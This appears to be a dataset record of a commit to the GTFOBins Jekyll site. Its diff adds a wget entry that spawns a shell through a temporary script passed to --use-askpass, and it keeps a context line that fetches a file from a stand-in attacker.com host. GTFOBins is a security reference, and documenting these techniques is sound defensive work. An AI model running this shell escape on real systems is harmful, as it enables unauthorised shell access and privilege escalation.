

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
New: shell using wget

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -24,6 +24,12 @@ functions:
         URL=http://attacker.com/file_to_get
         LFILE=file_to_save
         wget $URL -O $LFILE
+  shell:
+    - code: |
+        TF=$(mktemp)
+        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
+        chmod +x $TF
+        wget -v --use-askpass=$TF 0
   suid:
     - description: Fetch a remote file via HTTP GET request.
       code: |
```
